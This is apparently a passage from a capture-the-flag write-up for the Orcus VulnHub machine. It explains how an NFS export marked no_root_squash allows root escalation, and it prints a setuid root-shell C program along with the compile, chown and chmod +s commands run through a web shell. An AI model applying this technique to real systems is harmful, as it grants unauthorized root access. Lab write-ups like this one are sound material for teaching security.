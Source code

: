 # Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/tmp *(rw,no_root_squash)

{% endhighlight %}

After some research the important part: (rw, no_root_squash) essentially tells the nfs daemon to create files as the user running the service and leave them as is.  When this setting is not present (default in most cases) nfsnobody is the user who owns files created via nfs this is to prevent programs like the one found below from being uploaded and used to escalate privilege.  This means chown chmod are open game

### Exploit

Once I found that nfs was running as root I started looking up how to exploit it and an example for this VM, credits to g0blin research (https://g0blin.co.uk/orcus-vulnhub-writeup/#elevation) was available to learn from:

{% highlight c %}
#include <unistd.h>

main(int argc, char ** argv, char ** envp)
{
    setgid(0);
    setuid(0);
    system("/bin/bash", argv, envp);
    return 0;
}
{% endhighlight %}

Then on through our web shell:

{% highlight bash %}
cd /tmp
gcc shell.c -o shell
shell.c:3:1: warning: return type defaults to 'int' [-Wimplicit-int]
 main( int argc, char ** argv, char ** envp )
 ^
shell.c: In function 'main':
shell.c:7:2: warning: implicit declaration of function 'system' [-Wimplicit-function-declaration]
 system("/bin/bash", argv, envp);
 ^
{% endhighlight %}

Then set the executable up on our host:

{% highlight bash %}
chown root:root shell
chmod +s shell
{% endhighlight %}
